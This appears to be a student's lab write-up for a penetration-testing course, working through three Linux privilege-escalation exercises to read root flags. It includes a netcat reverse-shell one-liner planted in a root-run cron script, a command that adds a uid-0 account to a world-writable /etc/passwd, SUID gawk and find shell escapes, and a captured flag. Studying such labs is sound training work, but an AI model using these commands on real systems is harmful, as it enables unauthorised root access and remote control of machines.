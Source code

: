 
# 18.3.5.2
On the target VM #1, use an appropriate privilege escalation technique to gain access to root and read the flag.Scheduling is all that matters.  
  
  
No cron jobs listed.  
  
Looked to see what services are running:
```bash
└─$ ps -aux  
USER         PID %CPU %MEM    VSZ   RSS TTY      STAT START   TIME COMMAND  
root           1  0.0  0.0   2416   576 ?        Ss   18:58   0:00 /bin/sh -c chmod 400 /root/flag.txt && chown root /root/flag.txt && /usr/sbin/sshd   && cron   && tail -f /var/log/cron.log
```

Tried finding the filename for that command... could only find name of the process:
```bash
└─$ ps -p 1 -o comm=  
	sh
```

Tried to find a .sh file which _could_ fit this purpose:
```bash
find / -user root -perm /222 -name *.sh 2>/dev/null  
/var/archives/archive.sh  
...  
  
└─$ cat /var/archives/archive.sh  
#!/bin/bash  
  
TIMESTAMP=$(date + "%T")  
echo "$TIMESTAMP running the archiver"  
#cp -rf /home/kali /var/backups/kali  
cp -rf /home/student/ /var/backups/student/
```

Looked extremely similar to the class mats, so figured why not.  
Added one-liner for a reverse shell:
```bash
echo "rm /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/sh -i 2>&1 | nc <ip> <port> > /tmp/f" >> /var/archives/archive.sh
```
	Which worked.  woot



# 18.3.5.3
On the target VM #2, use another appropriate privilege escalation technique to gain access to root and read the flag. Take a closer look at file permissions.  
  
So damn easy
```bash
┌──(student㉿982662cf759a)-[~]  
└─$ ls -lah /etc/passwd  
-rw-rw-rw- 1 root root 1.4K Jan  9 19:33 /etc/passwd  
┌──(student㉿982662cf759a)-[~]  
└─$ openssl passwd pwnd  
nRpOSeBTiWBf6  
┌──(student㉿982662cf759a)-[~]  
└─$ echo "root2:nRpOSeBTiWBf6:0:0:root:/root:/bin/bash" >> /etc/passwd  
┌──(student㉿982662cf759a)-[~]  
└─$ su root2  
Password:   
┌──(root💀982662cf759a)-[/home/student]
```



# 18.3.5.4
Again, use an appropriate privilege escalation technique to gain access to root and read the flag on the target VM #3.Binary flags and custom shell are what to look for.  
  
Also so damn easy..... like, I literally laughed.  
  
  
Searched for binaries that had SUID or GUID bits set:
```bash
student@99df13b19ef1:~$ find / -perm -u=s -type f 2>/dev/null; find / -perm -4000 -o- -perm -2000 -o- -perm -6000  
/bin/umount  
/bin/su  
/bin/mount  
/usr/bin/passwd  
/usr/bin/newgrp  
/usr/bin/chsh  
/usr/bin/gpasswd  
/usr/bin/find  
/usr/bin/chfn  
/usr/bin/gawk  
/usr/bin/vim.basic  
/usr/lib/dbus-1.0/dbus-daemon-launch-helper  
/usr/lib/openssh/ssh-keysign  
find: unknown predicate `-o-'
```

Took a chance on gawk, though I think any one would've likely worked.  
  
Used [https://gtfobins.github.io/](https://gtfobins.github.io/) and searched for **gawk**. Used shell cmd vuln:
```bash
student@99df13b19ef1:~$ gawk 'BEGIN {system("/bin/sh")}'  
# id  
uid=1000(student) gid=1000(student) euid=0(root) groups=1000(student)  
# cat /root/flag.txt  
Great job! You found me.  
Here is your flag:  
  
OS{e63003c582419ac5916f6def043fb033}
```
	*Notice the EUID

(Also works for [**awk**](Cmdline%20Tools.md#awk))

[**find**](Cmdline%20Tools.md#find) also works:
```bash
find . -exec /bin/sh \; -quit
```
